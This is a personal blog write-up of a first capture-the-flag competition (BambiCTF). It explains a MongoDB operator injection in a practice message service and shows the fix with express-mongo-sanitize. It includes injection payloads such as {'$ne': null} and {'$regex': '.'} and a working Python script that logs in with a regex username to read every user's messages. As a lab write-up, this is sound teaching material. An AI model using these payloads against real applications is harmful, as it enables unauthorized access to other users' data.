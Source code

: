 ```yaml
---
title: "Report of the BambiCTF of ENOFLAG"
date: 2021-04-17T20:42:39
tags: [ctf]
slug: first-ctf-at-tu-berlin-bambi
authors:
  - DanielHabenicht
---
```


This was my first CTF and I will try to explain a vulnerability I fixed and exploited. 

<!--more-->

## Setup 

During the CTF I [connected to the server with VSCode](https://code.visualstudio.com/docs/remote/ssh), which meant I had instant access to all files and could edit them without changing between multiple ssh windows with `nano` editors.

Also the extensions: 
 - [Docker](https://marketplace.visualstudio.com/items?itemName=ms-azuretools.vscode-docker):
   For always having an eye on your services, easy access to logs and one-click terminals to your containers. 
 - [REST Client](https://marketplace.visualstudio.com/items?itemName=humao.rest-client):
   For writing simple HTTP Requests in a file format. (see below)
 - [Python](https://marketplace.visualstudio.com/items?itemName=ms-python.python)
   For writing the exploit in a simple jupyter notebook. 

allowed for a hassle free search for vulnerabilities

## Stonksexchange Vulnerability

[Here you can find the vulnerable service to try for yourself.](https://github.com/ldruschk/bambi-service-stonksexchange). 

The service is a simple node application which allows exchange of messages for registered/loggedin users: 

![image](https://user-images.githubusercontent.com/13590797/115123614-2d724c00-9fbe-11eb-8a9b-abe2db800a7d.png)

First I tried a simple XSS attack but was unsuccessful. Then it came to my mind that it might be some kind of injection attack as the service had a database.
After having a look at the files I noticed that user input was passed to the database without sanitizing it: 
```javascript
// /routes/index.js
router.post('/register', function (req, res, next) {
  if (!req.body.username || !req.body.password) {
    res.status(400).send('Missing username or password');
    return;
  }
  var db = req.app.locals.db;
  /*
   * Notice the findOne() function below which 
   * gets the data directly from the request body
   */
  db.collection('users').findOne({ 'username': req.body.username }).then(results => {
    if (results) {
      res.status(400).send('Username already in use');
      return;
    }
    argon2.hash(req.body.password).then(hash => {
      db.collection('users').insertOne({ 'username': req.body.username, 'password': hash }).then(results => {
        req.session.user = req.body.username;
        res.redirect('/');
      });
    });
  });
});
```

Trying the Endpoint directly confirms the suspicion. [MongoDB Operators](https://docs.mongodb.com/manual/reference/operator/query/) are directly executable.
```HTTP
# This Request always returns "Username already in use" because the query "{"$ne": null}" returns the first user 
# which names is not null (which is always the first user). 
POST http://localhost:8199/register HTTP/1.1
content-type: application/json

{
  "username": {"$ne": null},
  "password": "$#@Call4Code"
}
```

This holds true for multiple functions and googling the words [`mongodb` `findOne`, `vulnerability`](https://www.google.com/search?q=mongodb+findone+vulnerability) leads to possible NoSQL injections. 
So how to fix it? - [Stackoverflow is your friend](https://stackoverflow.com/questions/30585213/do-i-need-to-sanitize-user-input-before-inserting-in-mongodb-mongodbnode-js-co). 
I didn't use the package recommended there, but instead used [express-mongo-sanitize](https://www.npmjs.com/package/express-mongo-sanitize). Installing it and adding the following two lines fixed the problem. 

```javascript
// app.js

/**
  * Adding the following line to load the sanitizer
  */
const mongoSanitize = require('express-mongo-sanitize');

// ...

app.use(logger('dev'));
app.use(express.json());
app.use(express.urlencoded({ extended: false }));

/**
  * Use the sanitizer.
  */
app.use(mongoSanitize());
app.use(cookieParser());
```

Trying the endpoints again leads to a new user `{"$ne": null}`. :)


## Stonksexchange Exploit

Now that we know that the endpoints `/register`, `/login` and `/messages` are vulnerable we have to look for the flags.
> Notice that you won't have any flags locally because there is no server putting them there! 

Looking into the database we can see messages with flags. But how to retrieve them?

![image](https://user-images.githubusercontent.com/13590797/115124821-952b9580-9fc4-11eb-8d4c-b5b1a75ed2ca.png)

Having a look at the `/messages` endpoint we can see that `req.session.user` is used without sanitizing it, which means if we can put an Operator like `{"$regex": "."}` there (which matches any character and thus any user), we can retrieve the first 50 messages of the database. 
```javascript
router.get('/messages', function (req, res, next) {
  if (!req.session.user) {
    res.status(403).send('Not logged in');
    return;
  }
  var db = req.app.locals.db;
  /**
    * Notice that req.session.user is passed without sanitizing it
    */
  db.collection('messages').find({ 'username': req.session.user }, { 'sort': { '$natural': -1 } }).limit(50).toArray((err, results) => {
    if (err) {
      res.status(500).send('Internal server error');
      return;
    }
    res.locals.messages = results;
    res.render('messages', { title: 'Messages' });
  });
});
```

Because `user` is read from the `session` we have to "login" with the query we want to execute first. 

```javascript
router.post('/login', function (req, res) {
  if (!req.body.username || !req.body.password) {
    res.status(400).send('Missing username or password');
    return;
  }
  var db = req.app.locals.db;
  /**
    * The first user matching the username is returned, 
    * if the username is a query like {"$regex": "."} we have to consider the sort function.
    */
  db.collection('users').findOne({ 'username': req.body.username }, { 'sort': { '$natural': -1 } }).then(results => {
    if (!results) {
      res.status(400).send('Invalid username or password');
      return;
    }
    argon2.verify(results.password, req.body.password).then(result => {
      if (!result) {
        res.status(400).send('Invalid username or password');
        return;
      }
      req.session.user = req.body.username;
      res.redirect('/');
    });
  });
});
```

Viewing the `/login` enpoint we can see that the first user matching the query will be returned. As we want the username to be `{"$regex": "."}` we have to consider the ([natural](https://docs.mongodb.com/v4.2/reference/glossary/#term-natural-order)) sort order. 

![image](https://user-images.githubusercontent.com/13590797/115125463-7d561080-9fc8-11eb-84fe-eb8049f2791f.png)

In this case `findOne` will always return the last created user. For a successful login we have to know the password of the user. What better way to just create one?

Lets put it together in a python script:

```python
import requests
base = "http://localhost:8199"

# Prepare the exploit by creating a user with a password we know
prepare = requests.Session()
register = prepare.post(base + '/register', json={ 'username': "sdfsdf", "password": "masterpass" })
# This status code should be 200
print(register.status_code)

# Create the exploit Session
exploit = requests.Session()
# Login with the query we want to execute
register = exploit.post(base + '/login', json={ 'username': {"$regex": "."}, "password": "masterpass" })
# This status code should be 200
print(register.status_code)

# Get all messages
messages = exploit.get(base + "/messages")
print(messages.content)
```

> During the CTF new users where created from other people exploiting the service, which meant that in order to login with all matching regex a new user had to be created each time. 

Thanks to [Enoflag](http://enoflag.de/) for hosting this event!
